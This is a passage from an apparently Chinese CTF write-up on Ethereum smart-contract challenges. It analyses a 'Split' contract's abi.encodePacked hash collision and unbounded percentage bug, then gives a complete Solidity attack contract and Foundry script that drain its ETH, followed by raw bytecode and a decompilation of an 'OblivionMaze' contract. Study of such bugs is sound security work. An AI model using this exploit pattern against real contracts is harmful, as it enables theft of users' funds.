        uint256 totalBalance = storedWalletBalance + externalWalletBalance;

        if (msg.sender != ownerOf(splitId)) {
            uint256 relayerAmount = totalBalance * relayerFee / SCALE; // relayerFee为0，不考虑
            balances[msg.sender][address(token)] += relayerAmount;
            totalBalance -= relayerAmount;
        }

        for (uint256 i = 0; i < accounts.length; i++) {
            balances[accounts[i]][address(token)] += totalBalance * percents[i] / SCALE; // 做高percent
        }

        if (storedWalletBalance > 0) {
            balances[address(wallet)][address(token)] = 0;
        }

        if (externalWalletBalance > 0) {
            wallet.pullToken(token, externalWalletBalance);
        }
    }

    function _hashSplit(address[] memory accounts, uint32[] memory percents, uint32 relayerFee)
        internal
        pure
        returns (bytes32)
    {
        // 将给定参数根据其所需最低空间编码，会把其中填充的很多 0 省略
        return keccak256(abi.encodePacked(accounts, percents, relayerFee));

    }

    function splitsById(uint256 id) external view returns (SplitData memory) {
        return _splitsById[id];
    }

    receive() external payable {}
}

```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.9;

//0x527Eb022ae8aB3e68041f6084984026a0dF54aDf
import "./need/Clone.sol";
import "./need/IERC20.sol";

contract SplitWallet is Clone {
    function deposit() external payable {}

    function pullToken(IERC20 token, uint256 amount) external {
        require(msg.sender == _getArgAddress(0));

        if (address(token) == address(0x00)) {
            payable(msg.sender).transfer(amount);
        } else {
            token.transfer(msg.sender, amount);
        }
    }

    function balanceOf(IERC20 token) external view returns (uint256) {
        if (address(token) == address(0x00)) {
            return address(this).balance;
        }

        return token.balanceOf(address(this));
    }
}

```

## 思路

先看`issolved()`,要求split和wallet0的余额都==0

```solidity
Split.SplitData memory splitData = split.splitsById(0);
return address(split).balance == 0 && address(splitData.wallet).balance == 0;
```

然后看setu初始都给了什么:

一开始,是create了一个split0,并且往wallet0里存了10 ether

* wallet.balance = 10 ETH
* split.balance = 0

重点看split合约,其中我注意到了几个重要函数:

### create

```solidity
 function createSplit(address[] memory accounts, uint32[] memory percents, uint32 relayerFee)
        external
        returns (uint256)
    {
        return _createSplit(accounts, percents, relayerFee, msg.sender);
    }

    function createSplitFor(address[] memory accounts, uint32[] memory percents, uint32 relayerFee, address owner)
        external
        returns (uint256)
    {
        return _createSplit(accounts, percents, relayerFee, owner);
    }

    function _createSplit(address[] memory accounts, uint32[] memory percents, uint32 relayerFee, address owner)
        private
        validSplit(accounts, percents, relayerFee)
        returns (uint256)
    {
        uint256 tokenId = nextId++;

        address wallet = address(IMPLEMENTATION).clone(abi.encodePacked(address(this)));

        _splitsById[tokenId] =
            SplitData({hash: _hashSplit(accounts, percents, relayerFee), wallet: SplitWallet(payable(wallet))});

        _mint(owner, tokenId);

        return tokenId;
    }
```

这个可以让我们自己create新的split和wallet

### distribute

```solidity
function distribute(
        uint256 splitId,
        address[] memory accounts,
        uint32[] memory percents,
        uint32 relayerFee,
        IERC20 token
    ) external {
        _distribute(splitId, accounts, percents, relayerFee, token);
    }

  function _distribute(
        uint256 splitId,
        address[] memory accounts,
        uint32[] memory percents,
        uint32 relayerFee,
        IERC20 token
    ) private {
        // 限制，对身份进行校验 -> _hashSplit使用的是abi.encodePacket (hash collision)
        // 没对数组长度进行校验，可以利用
        require(_splitsById[splitId].hash == _hashSplit(accounts, percents, relayerFee)); 

        SplitWallet wallet = _splitsById[splitId].wallet;
        uint256 storedWalletBalance = balances[address(wallet)][address(token)]; // 一般都为0
        uint256 externalWalletBalance = wallet.balanceOf(token); // 关注

        uint256 totalBalance = storedWalletBalance + externalWalletBalance;

        if (msg.sender != ownerOf(splitId)) {
            uint256 relayerAmount = totalBalance * relayerFee / SCALE; // relayerFee为0，不考虑
            balances[msg.sender][address(token)] += relayerAmount;
            totalBalance -= relayerAmount;
        }

        for (uint256 i = 0; i < accounts.length; i++) {
            balances[accounts[i]][address(token)] += totalBalance * percents[i] / SCALE; // 做高percent
        }

        if (storedWalletBalance > 0) {
            balances[address(wallet)][address(token)] = 0;
        }

        if (externalWalletBalance > 0) {
            wallet.pullToken(token, externalWalletBalance);
        }
    }

```

这里有个`_hashSplit()`函数,是**abi.encodePacked**打包方式,是一个可利用的漏洞点或者碰撞点

```solidity
 function _hashSplit(address[] memory accounts, uint32[] memory percents, uint32 relayerFee)
        internal
        pure
        returns (bytes32)
    {
        // 将给定参数根据其所需最低空间编码，会把其中填充的很多 0 省略
        return keccak256(abi.encodePacked(accounts, percents, relayerFee));

    }
```

然后distribute里也有关键的几个地方:

```solidity
 for (uint256 i = 0; i < accounts.length; i++) {
            balances[accounts[i]][address(token)] += totalBalance * percents[i] / SCALE; // 做高percent
        }
```

这里是关键,一般我们会进入到这个分支,而这里又可以增加balance

注意到计算方式是

```solidity
totalBalance * percents[i] / SCALE
```

SCALE是常数1e6,`totalBalance`在setup后非0,而这个percent是我们可以自己控制的

一个可以控制的数/常数,那么就可以<font style="background-color:#FBDFEF;">做高percent,</font>从而让balance记高

### withdraw

```solidity
function withdraw(IERC20[] calldata tokens, uint256[] calldata amounts) external { // 未对调用者进行检查
        for (uint256 i = 0; i < tokens.length; i++) {
            IERC20 token = tokens[i];
            uint256 amount = amounts[i];

            balances[msg.sender][address(token)] -= amount;

            if (address(token) == address(0x00)) {
                payable(msg.sender).transfer(amount);
            } else {
                token.transfer(msg.sender, amount);
            }
        }
    }
```

未对调用者进行检查,只需要调用者有balance,有多少balance就允许提走多少

`issolved()`里的split是所有split的余额,那么我们可以尝试利用新split和encodePacked的哈希碰撞,让我们的账户记到balance,然后再withdraw提走split的钱

***

综上可以摸索出一条路

1. 先把wallet0的钱distribute提到split0里
2. create一个split1
3. 往wallet1里存0.01 ether
4. split1去distribute,这里就可以通过encodePacked把我们自己的账户编进去,从而达到自己账户得到balance的目的
5. withdraw出split的balance

### 走不通的思路

首先就是改变split所有权，这里会有个函数

```solidity
function _updateSplit(uint256 splitId, address[] memory accounts, uint32[] memory percents, uint32 relayerFee)
        private
        onlySplitOwner(splitId)
        validSplit(accounts, percents, relayerFee)
    {
        _splitsById[splitId].hash = _hashSplit(accounts, percents, relayerFee);
    }
```

可以改变split所有权，我本来想尝试能不能拿到部署账户的私钥，或者也是哈希碰撞一下，后来发现不行

## poc

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {Setup} from "./Setup.sol";
import {Split} from "./Split.sol";
import {SplitWallet} from "./SplitWallet.sol";
import {IERC20} from "./need/IERC20.sol";

contract Attack {
    Setup public setup;
    Split public split;
    uint256 public split1;
    uint256 public split2;
    SplitWallet public wallet;
    uint32 public relayerFee = 0;

    constructor(address addr) {
        L setup = Setup(addr);
        split = setup.split();
    }

    function attack() external payable {
        //把 10 ether从wallet0提到split0
        uint32[] memory percents1 = new uint32[](4);
        percents1[0] = 0xDEAD;
        percents1[1] = 0xBEEF;
        percents1[2] = 500000;
        percents1[3] = 500000;
        address[] memory account1 = new address[](0); //空的
        IERC20 token = IERC20(address(0));
        split.distribute(0, account1, percents1, relayerFee, token);

        // //创split1 1+1
        // address[] memory account2 = new address[](1);
        // account2[0] = 0x98707a8Cb53bD823f9c5353611018aF38533adE5;
        // uint32[] memory percents2 = new uint32[](1);
        // percents2[0] = 1e6;
        // split1 = split.createSplit(account2, percents2, relayerFee);
        // //Split.SplitData memory a=split.splitsById(split1);
        // //address wallet1=address(a.wallet);

        //创split2 2+2
        address[] memory account3 = new address[](2);
        account3[0] = address(this); //攻击合约
        account3[1] = 0x00000000000000000000000000000000FFFFfFFF;
        uint32[] memory percents3 = new uint32[](2);
        percents3[0] = 500000;
        percents3[1] = 500000;
        split2 = split.createSplit(account3, percents3, relayerFee);

        //wallet2 deposit
        Split.SplitData memory b = split.splitsById(split2);
        address wallet2 = address(b.wallet);
        SplitWallet(payable(wallet2)).deposit{value: 0.01 ether}();

        //split2 distribute 3+1
        uint32[] memory percents4 = new uint32[](3);
        percents4[0] = 0xFFFFFFFF;
        percents4[1] = 500000;
        percents4[2] = 500000;
        address[] memory account4 = new address[](1);
        account4[0] = address(this); //攻击合约
        split.distribute(split2, account4, percents4, 0, IERC20(address(0)));

        require(split.balances(address(this), address(0)) >= 10 ether, "balance not enough");

        //withdraw
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = address(split).balance;
        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(0));
        split.withdraw(tokens, amounts); //以攻击合约视角

        require(setup.isSolved(), "no!!!!!!!!"); 
    }

    receive() external payable {}
}


```

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.9;

import "forge-std/Script.sol";
import "forge-std/console2.sol";
import {Attack} from "../contracts/1.sol";

contract Attacksc is Script {
    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(0x335c9E0B2fA89002bDAA2214AA2292d739a64763);
        attack.attack{value: 2 ether}();
        // uint256[] memory amounts=new uint256[](1);
        // amounts[0]=address(split).balance;
        // IERC20[] memory tokens=new IERC20[](1);
        // tokens[0]=IERC20(address(0));
        // split.withdraw(tokens,amounts);
        vm.stopBroadcast();
    }
}

```

# OblivionMaze

## 题目

```solidity
0x6080604052600436106101c65760003560e01c80636810f532116100f7578063cfaaa26611610095578063eee9720611610064578063eee97206146104fd578063f40a049d1461051d578063f7be27711461053d578063f9df19061461055d576101cd565b8063cfaaa26614610475578063d0e30db014610495578063d4538cb61461049d578063e5ac9ef1146104d0576101cd565b8063851f41e6116100d1578063851f41e6146103fa5780639c40c60a1461041a578063aa2b1aaf14610435578063abac7b5e14610455576101cd565b80636810f532146103a7578063713b988b146103c757806372f7a030146103e7576101cd565b80633fb5c1cb116101645780635cee45021161013e5780635cee45021461033a5780636281bb871461034f57806362f93ce41461036f57806364d98f6e1461038f576101cd565b80633fb5c1cb146102da578063417f9ba8146102fa57806350739f7a1461031a576101cd565b8063121285ff116101a0578063121285ff1461026b57806327552856146102805780632d360755146102b05780633ccfd60b146102c5576101cd565b806303e9e609146101eb578063052e1fa71461022b57806307cbe55f1461024b576101cd565b366101cd57005b60003560e01c631234567814156101e957600160005260206000f35b005b3480156101f757600080fd5b50610218610206366004610f00565b60009081526008602052604090205490565b6040519081526020015b60405180910390f35b34801561023757600080fd5b50610218610246366004610f19565b61057e565b34801561025757600080fd5b506101e9610266366004610f45565b610695565b34801561027757600080fd5b506101e96106f4565b34801561028c57600080fd5b506102a061029b366004610f00565b610714565b6040519015158152602001610222565b3480156102bc57600080fd5b506101e9610767565b3480156102d157600080fd5b506101e9610782565b3480156102e657600080fd5b506101e96102f5366004610f00565b6107c3565b34801561030657600080fd5b50610218610315366004610f75565b6107de565b34801561032657600080fd5b50610218610335366004610f00565b61086a565b34801561034657600080fd5b5061021861087d565b34801561035b57600080fd5b5061021861036a366004610f00565b6108b9565b34801561037b57600080fd5b506102a061038a366004610f00565b6109ba565b34801561039b57600080fd5b5060065460ff166102a0565b3480156103b357600080fd5b506102186103c2366004610f00565b610a14565b3480156103d357600080fd5b506101e96103e2366004610f00565b610a40565b3480156103f357600080fd5b5043610218565b34801561040657600080fd5b50610218610415366004610f00565b610b10565b34801561042657600080fd5b50604051328152602001610222565b34801561044157600080fd5b50610218610450366004610f75565b610c4a565b34801561046157600080fd5b506102a0610470366004610f00565b610d07565b34801561048157600080fd5b506101e9610490366004610f45565b610d6f565b6101e9610d85565b3480156104a957600080fd5b507f1c8aff950685c2ed4bc3174f3472287b56d9517b9c948127319a09a7a36deac8610218565b3480156104dc57600080fd5b506101e96104eb366004610f75565b60009182526008602052604090912055565b34801561050957600080fd5b50610218610518366004610f00565b610dab565b34801561052957600080fd5b50610218610538366004610f00565b610db8565b34801561054957600080fd5b50610218610558366004610f00565b610dc5565b34801561056957600080fd5b506102a0610578366004610f45565b50600190565b60008061058b85856107de565b9050600061059882610b10565b905060006105a5856109ba565b905080156105fa5760058060008282546105bf9190610fad565b909155506105d09050606483610fdb565b33600090815260076020526040812080549091906105ef908490610fad565b909155506106439050565b60026005600082825461060d9190610fef565b9091555061061e9050603284610fdb565b336000908152600760205260408120805490919061063d908490610fad565b90915550505b604080516020810184905290810184905260608101869052610680906080016040516020818303038152906040528051906020012060001c610a40565b61068a8383610fad565b979650505050505050565b6040516000906001600160a01b038316908281818181865af19150503d80600081146106dd576040519150601f19603f3d011682016040523d82523d6000602084013e6106e2565b606091505b50509050806106f057600080fd5b5050565b60055415610712576005805490600061070c83611006565b91905055505b565b60008160405160200161072991815260200190565b60408051601f198184030181528282528051602091820120908301859052910160405160208183030381529060405280519060200120149050919050565b600a6005541015610712576005805490600061070c8361101d565b33600081815260076020526040808220805490839055905190929183156108fc02918491818181858888f193505050501580156106f0573d6000803e3d6000fd5b338114156107d9576006805460ff191660011790555b600355565b60008060005b600a811015610862576107f981868618610fad565b6108039083610fad565b600181901b60ff9190911c17915061081c600383610fdb565b6108295790841890610850565b610834600583610fdb565b6108415790831890610850565b61084b8486610fad565b821891505b8061085a8161101d565b9150506107e4565b509392505050565b6000610877826007610fad565b92915050565b6000434260405160200161089b929190918252602082015260400190565b6040516020818303038152906040528051906020012060001c905090565b6005546000908290825b6005811015610983576108d7600284610fdb565b6108f857816108e7600285611038565b6108f19190610fad565b9250610911565b61090383600361104c565b61090e906001610fad565b92505b61091c600784610fdb565b61093a57600580549060006109308361101d565b9190505550610971565b610945600b84610fdb565b610959576005805490600061093083611006565b806005600082825461096b9190610fad565b90915550505b8061097b8161101d565b9150506108c3565b506103e88211156109b35733600090815260076020526040812080548492906109ad908490610fad565b90915550505b5092915050565b6000806020808401206002548114156109d257600191505b508015610a0b576000805490806109e88361101d565b9091555050600180549060006109fd8361101d565b909155506001949350505050565b50600092915050565b60008060005b838110156109b357610a2c8183610fad565b915080610a388161101d565b915050610a1a565b8060005b6008811015610b0b57604080516020810184905290810182905242606082015260800160408051601f1981840301815291815281516020928301206000848152600890935291208190559150610a9b600283610fdb565b610ac9573360009081526007602052604081208054849290610abe908490610fad565b90915550610af99050565b610ad4600a83610fdb565b3360009081526007602052604081208054909190610af3908490610fef565b90915550505b80610b038161101d565b915050610a44565b505050565b600081815b6006811015610c2257610b29600283610fdb565b610b3f57610b38600283611038565b9150610b58565b610b4a82600561104c565b610b55906001610fad565b91505b610b63600383610fdb565b610b815760058054906000610b778361101d565b9190505550610ba6565b610b8c600783610fdb565b610ba65760058054906000610ba083611006565b91905055505b60005b6003811015610c0f57600354604080516020808201879052818301859052606093841b6bffffffffffffffffffffffff19169382019390935281516054818303018152607490910190915280519101209092189180610c078161101d565b915050610ba9565b5080610c1a8161101d565b915050610b15565b50610c2e600d82610fdb565b61087757600380546001600160a01b0319163317905592915050565b600080610c56846108b9565b90506000610c6384610dc5565b9050610c6e81610a40565b610c79600283610fdb565b610c9b57600360056000828254610c909190610fad565b90915550610cb49050565b600760056000828254610cae9190610fad565b90915550505b6040805160208101869052908101839052610ce790606001604051602081830303815290604052805190602001206109ba565b50610cf46103e882610fdb565b610cfe9083610fad565b95945050505050565b60007fb197784fad09d6594020c3ddafada1a935c6864084b5efde74c87d17385e770e82811415610d3b5750600092915050565b600454604080516020810186905201604051602081830303815290604052805190602001201415610a0b5750600192915050565b6001600160a01b038116610d8257600080fd5b50565b3360009081526007602052604081208054349290610da4908490610fad565b9091555050565b600061087782600261104c565b600061087782600361104c565b6000808243604051602001610de4929190918252602082015260400190565b60408051601f19818403018152908290528051602091820120600354909350600092610e379285926001600160a01b0316910191825260601b6bffffffffffffffffffffffff1916602082015260340190565b60408051808303601f1901815282825280516020918201206004548285018290528484015282518085038401815260609094019092528251920191909120909150610e83600282610fdb565b610ee357807fb197784fad09d6594020c3ddafada1a935c6864084b5efde74c87d17385e770e604051602001610ec3929190918252602082015260400190565b604051602081830303815290604052805190602001209350505050919050565b600554604051610ec3918391602001918252602082015260400190565b600060208284031215610f1257600080fd5b5035919050565b600080600060608486031215610f2e57600080fd5b505081359360208301359350604090920135919050565b600060208284031215610f5757600080fd5b81356001600160a01b0381168114610f6e57600080fd5b9392505050565b60008060408385031215610f8857600080fd5b50508035926020909101359150565b634e487b7160e01b600052601160045260246000fd5b60008219821115610fc057610fc0610f97565b500190565b634e487b7160e01b600052601260045260246000fd5b600082610fea57610fea610fc5565b500690565b60008282101561100157611001610f97565b500390565b60008161101557611015610f97565b506000190190565b600060001982141561103157611031610f97565b5060010190565b60008261104757611047610fc5565b500490565b600081600019048311821515161561106657611066610f97565b50029056fea2646970667358221220816ffc465ec568a07ff67677555a73ba258e4d139d87e9a893a359bdd7affe2364736f6c63430008090033
```

## 思路

反编译：


```solidity
// Decompiled by library.dedaub.com
// 2026.03.02 15:38 UTC
// Compiled using the solidity compiler version 0.8.9


// Data structures and variables inferred from the use of storage instructions
uint256 stor_0; // STORAGE[0x0]
uint256 stor_1; // STORAGE[0x1]
bytes32 stor_2; // STORAGE[0x2]
uint256 stor_3; // STORAGE[0x3]
bytes32 stor_4; // STORAGE[0x4]
uint256 stor_5; // STORAGE[0x5]
mapping (address => uint256) _deposit; // STORAGE[0x7]
mapping (uint256 => uint256) _getRecord; // STORAGE[0x8]
bool _isSolved; // STORAGE[0x6] bytes 0 to 0


function 0x1006(uint256 varg0) private { 
    require(varg0, Panic(17)); // arithmetic overflow or underflow
    return uint256.max + varg0;
}

function 0x101d(uint256 varg0) private { 
    require(varg0 != uint256.max, Panic(17)); // arithmetic overflow or underflow
    return 1 + varg0;
}

function _SafeDiv(uint256 varg0, uint256 varg1) private { 
    require(varg1, Panic(18)); // division by zero
    return varg0 / varg1;
}

function _SafeMul(uint256 varg0, uint256 varg1) private { 
    require(!(bool(varg0) & (varg1 > uint256.max / varg0)), Panic(17)); // arithmetic overflow or underflow
    return varg0 * varg1;
}

function getRecord(uint256 _tokenId) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    return _getRecord[_tokenId];
}

function 0x052e1fa7(uint256 varg0, uint256 varg1, uint256 varg2) public nonPayable { 
    require(msg.data.length - 4 >= 96);
    v0 = 0x7de(varg1, varg0);
    v1 = 0xb10(v0);
    v2 = v3 = 0;
    if (keccak256(MEM[varg2 + 32:varg2 + 32 + 32]) == stor_2) {
        v2 = v4 = 1;
    }
    if (!v2) {
        v5 = 0;
    } else {
        v6 = 0x101d(stor_0);
        stor_0 = v6;
        v7 = 0x101d(stor_1);
        stor_1 = v7;
        v5 = v8 = 1;
    }
    if (!v5) {
        v9 = _SafeSub(stor_5, 2);
        stor_5 = v9;
        v10 = _SafeMod(v0, 50);
        v11 = _SafeAdd(_deposit[msg.sender], v10);
        _deposit[msg.sender] = v11;
    } else {
        v12 = _SafeAdd(stor_5, 5);
        stor_5 = v12;
        v13 = _SafeMod(v1, 100);
        v14 = _SafeAdd(_deposit[msg.sender], v13);
        _deposit[msg.sender] = v14;
    }
    0xa40(keccak256(v1, v0, varg2));
    v15 = _SafeAdd(v1, v0);
    return v15;
}

function 0x07cbe55f(address varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0, /* uint256 */ v1 = varg0.call().gas(msg.gas);
    if (RETURNDATASIZE() != 0) {
        v2 = new bytes[](RETURNDATASIZE());
        RETURNDATACOPY(v2.data, 0, RETURNDATASIZE());
    }
    require(v0);
}

function 0x121285ff() public nonPayable { 
    if (stor_5) {
        v0 = 0x1006(stor_5);
        stor_5 = v0;
    }
}

function 0x27552856(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    MEM[64 + MEM[64] + 32] = varg0;
    v0 = new uint256[](64 + MEM[64] + 64 - v0 - 32);
    v1 = v0.length;
    v2 = v0.data;
    return keccak256(v0) == keccak256(varg0);
}

function 0x2d360755() public nonPayable { 
    if (stor_5 < 10) {
        v0 = 0x101d(stor_5);
        stor_5 = v0;
    }
}

function withdraw() public nonPayable { 
    _deposit[msg.sender] = 0;
    v0 = msg.sender.call().value(_deposit[msg.sender]).gas(2300 * !_deposit[msg.sender]);
    require(bool(v0), 0, RETURNDATASIZE()); // checks call status, propagates error data on error
}

function setNumber(uint256 newNumber) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    if (newNumber == msg.sender) {
        _isSolved = 1;
    }
    stor_3 = newNumber;
}

function 0x417f9ba8(uint256 varg0, uint256 varg1) public nonPayable { 
    require(msg.data.length - 4 >= 64);
    v0 = 0x7de(varg1, varg0);
    return v0;
}

function 0x50739f7a(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0 = _SafeAdd(7, varg0);
    return v0;
}

function pseudoRandom() public nonPayable { 
    return keccak256(block.number, block.timestamp);
}

function 0x6281bb87(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0 = 0x8b9(varg0);
    return v0;
}

function 0x62f93ce4(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0 = v1 = 0;
    if (keccak256(MEM[varg0 + 32:varg0 + 32 + 32]) == stor_2) {
        v0 = v2 = 1;
    }
    if (!v0) {
        v3 = v4 = 0;
    } else {
        v5 = 0x101d(stor_0);
        stor_0 = v5;
        v6 = 0x101d(stor_1);
        stor_1 = v6;
        v3 = v7 = 1;
    }
    return bool(v3);
}

function isSolved() public nonPayable { 
    return _isSolved;
}

function 0x6810f532(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0 = v1 = 0;
    v2 = v3 = 0;
    while (v2 < varg0) {
        v0 = _SafeAdd(v0, v2);
        v2 = 0x101d(v2);
    }
    return v0;
}

function mutate(uint256 serumId) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    0xa40(serumId);
}

function guarded() public nonPayable { 
    return block.number;
}

function 0x851f41e6(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0 = 0xb10(varg0);
    return v0;
}

function 0x9c40c60a() public nonPayable { 
    return tx.origin;
}

function 0xaa2b1aaf(uint256 varg0, uint256 varg1) public nonPayable { 
    require(msg.data.length - 4 >= 64);
    v0 = 0x8b9(varg0);
    v1 = 0xdc5(varg1);
    0xa40(v1);
    v2 = _SafeMod(v0, 2);
    if (v2) {
        v3 = _SafeAdd(stor_5, 7);
        stor_5 = v3;
    } else {
        v4 = _SafeAdd(stor_5, 3);
        stor_5 = v4;
    }
    MEM[64] += 96;
    v5 = v6 = 0;
    if (keccak256(MEM[keccak256(varg1, vc55_0x0V0x450) + 32:keccak256(varg1, vc55_0x0V0x450) + 32 + 32]) == stor_2) {
        v5 = v7 = 1;
    }
    if (v5) {
        v8 = 0x101d(stor_0);
        stor_0 = v8;
        v9 = 0x101d(stor_1);
        stor_1 = v9;
    }
    v10 = _SafeMod(v1, 1000);
    v11 = _SafeAdd(v0, v10);
    return v11;
}

function 0xabac7b5e(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    if (0xb197784fad09d6594020c3ddafada1a935c6864084b5efde74c87d17385e770e != varg0) {
        if (keccak256(varg0) != stor_4) {
            v0 = v1 = 0;
        } else {
            v0 = v2 = 1;
        }
    } else {
        v0 = v3 = 0;
    }
    return bool(v0);
}

function TransferOwnership(address newOwner) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    require(newOwner);
}

function deposit() public payable { 
    v0 = _SafeAdd(_deposit[msg.sender], msg.value);
    _deposit[msg.sender] = v0;
}

function 0xd4538cb6() public nonPayable { 
    return 0x1c8aff950685c2ed4bc3174f3472287b56d9517b9c948127319a09a7a36deac8;
}

function 0xe5ac9ef1(uint256 varg0, uint256 varg1) public nonPayable { 
    require(msg.data.length - 4 >= 64);
    _getRecord[varg0] = varg1;
}

function double(uint256 amount) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0 = _SafeMul(2, amount);
    return v0;
}

function 0xf40a049d(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0 = _SafeMul(3, varg0);
    return v0;
}

function 0xf7be2771(uint256 varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    v0 = 0xdc5(varg0);
    return v0;
}

function 0xf9df1906(address varg0) public nonPayable { 
    require(msg.data.length - 4 >= 32);
    return True;
}

function 0x7de(uint256 varg0, uint256 varg1) private { 
    v0 = v1 = 0;
    v2 = v3 = 0;
    while (v2 < 10) {
        v4 = _SafeAdd(varg0 ^ varg1, v2);
        v5 = _SafeAdd(v0, v4);
        v6 = _SafeMod(v5 >> uint8.max | v5 << 1, 3);
        if (v6) {
            v7 = _SafeMod(v5 >> uint8.max | v5 << 1, 5);
            if (v7) {
                v8 = _SafeAdd(varg1, varg0);
                v0 = (v5 >> uint8.max | v5 << 1) ^ v8;
            } else {
                v0 = varg0 ^ (v5 >> uint8.max | v5 << 1);
            }
        } else {
            v0 = varg1 ^ (v5 >> uint8.max | v5 << 1);
        }
        v2 = 0x101d(v2);
    }
    return v0;
}

function 0x8b9(uint256 varg0) private { 
    v0 = stor_5;
    v1 = v2 = 0;
    while (v1 < 5) {
        v3 = _SafeMod(varg0, 2);
        if (v3) {
            v4 = _SafeMul(3, varg0);
            varg0 = _SafeAdd(1, v4);
        } else {
            v5 = _SafeDiv(varg0, 2);
            varg0 = _SafeAdd(v5, v0);
        }
        v6 = _SafeMod(varg0, 7);
        if (v6) {
            v7 = _SafeMod(varg0, 11);
            if (v7) {
                v8 = stor_5;
                v9 = _SafeAdd(v8, v1);
                stor_5 = v9;
            } else {
                v10 = stor_5;
                v11 = 0x1006(v10);
                stor_5 = v11;
            }
        } else {
            v12 = stor_5;
            v13 = 0x101d(v12);
            stor_5 = v13;
        }
        v1 = 0x101d(v1);
    }
    if (varg0 <= 1000) {
        return varg0;
    } else {
        v14 = _SafeAdd(_deposit[msg.sender], varg0);
        _deposit[msg.sender] = v14;
        return varg0;
    }
}

function 0xa40(uint256 varg0) private { 
    v0 = v1 = 0;
    while (v0 < 8) {
        varg0 = v2 = keccak256(varg0, v0, block.timestamp);
        _getRecord[v0] = v2;
        v3 = _SafeMod(v2, 2);
        if (v3) {
            v4 = _SafeMod(v2, 10);
            v5 = _SafeSub(_deposit[msg.sender], v4);
            _deposit[msg.sender] = v5;
        } else {
            v6 = _SafeAdd(_deposit[msg.sender], v2);
            _deposit[msg.sender] = v6;
        }
        v0 = 0x101d(v0);
    }
    return ;
}

function 0xb10(uint256 varg0) private { 
    v0 = v1 = 0;
    while (v0 < 6) {
        v2 = _SafeMod(varg0, 2);
        if (v2) {
            v3 = _SafeMul(5, varg0);
            varg0 = _SafeAdd(1, v3);
        } else {
            varg0 = _SafeDiv(varg0, 2);
        }
        v4 = _SafeMod(varg0, 3);
        if (v4) {
            v5 = _SafeMod(varg0, 7);
            if (!v5) {
                v6 = stor_5;
                v7 = 0x1006(v6);
                stor_5 = v7;
            }
        } else {
            v8 = stor_5;
            v9 = 0x101d(v8);
            stor_5 = v9;
        }
        v10 = v11 = 0;
        while (v10 < 3) {
            MEM[64] = MEM[64] + 116;
            varg0 = varg0 ^ keccak256(varg0, v10, bytes20(stor_3 << 96));
            v10 = 0x101d(v10);
        }
        v0 = 0x101d(v0);
    }
    v12 = _SafeMod(varg0, 13);
    if (v12) {
        return varg0;
    } else {
        stor_3 = msg.sender | bytes12(stor_3);
        return varg0;
    }
}

function 0xdc5(uint256 varg0) private { 
    MEM[96 + MEM[64] + 32] = keccak256(varg0, block.number);
    MEM[96 + MEM[64] + 32 + 32] = bytes20(address(stor_3) << 96);
    v0 = new uint256[](52 + (96 + MEM[64] + 32) - v0 - 32);
    v1 = v0.length;
    v2 = v0.data;
    MEM[52 + (96 + MEM[64] + 32) + 32] = keccak256(v0);
    MEM[116 + (96 + MEM[64] + 32)] = stor_4;
    v3 = new uint256[](64 + (52 + (96 + MEM[64] + 32) - v3));
    v4 = v3.length;
    v5 = v3.data;
    v6 = _SafeMod(keccak256(v3), 2);
    if (v6) {
        v7 = new uint256[](v8 - v9 - 32);
        MEM[v7.data] = keccak256(v3);
        MEM[v7.data + 32] = stor_5;
        v8 = v10 = 64 + v7.data;
    } else {
        v11 = new uint256[](v8 - v9 - 32);
        MEM[v9.data] = keccak256(v3);
        MEM[v9.data + 32] = 0xb197784fad09d6594020c3ddafada1a935c6864084b5efde74c87d17385e770e;
        v8 = v12 = 64 + v9.data;
    }
    v9 = new uint256[](v8 - v9 - 32);
    v13 = v7.length;
    v14 = v7.data;
    return keccak256(v11, v9, v7);
}

function receive() public payable { 
}

function _SafeAdd(uint256 varg0, uint256 varg1) private { 
    require(varg0 <= ~varg1, Panic(17)); // arithmetic overflow or underflow
    return varg0 + varg1;
}

function _SafeMod(uint256 varg0, uint256 varg1) private { 
    require(varg1, Panic(18)); // division by zero
    return varg0 % varg1;
}

function _SafeSub(uint256 varg0, uint256 varg1) private { 
    require(varg0 >= varg1, Panic(17)); // arithmetic overflow or underflow
    return varg0 - varg1;
}

// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.

function __function_selector__( function_selector) public payable { 
    MEM[64] = 128;
    if (msg.data.length < 4) {
        if (!msg.data.length) {
            receive();
        }
    } else {
        v0 = function_selector >> 224;
        if (0x6810f532 > v0) {
            if (0x3fb5c1cb > v0) {
                if (0x121285ff > v0) {
                    if (0x3e9e609 == v0) {
                        getRecord(uint256);
                    } else if (0x52e1fa7 == v0) {
                        0x052e1fa7();
                    } else if (0x7cbe55f == v0) {
                        0x07cbe55f();
                    }
                } else if (0x121285ff == v0) {
                    0x121285ff();
                } else if (0x27552856 == v0) {
                    0x27552856();
                } else if (0x2d360755 == v0) {
                    0x2d360755();
                } else if (0x3ccfd60b == v0) {
                    withdraw();
                }
            } else if (0x5cee4502 > v0) {
                if (0x3fb5c1cb == v0) {
                    setNumber(uint256);
                } else if (0x417f9ba8 == v0) {
                    0x417f9ba8();
                } else if (0x50739f7a == v0) {
                    0x50739f7a();
                }
            } else if (0x5cee4502 == v0) {
                pseudoRandom();
            } else if (0x6281bb87 == v0) {
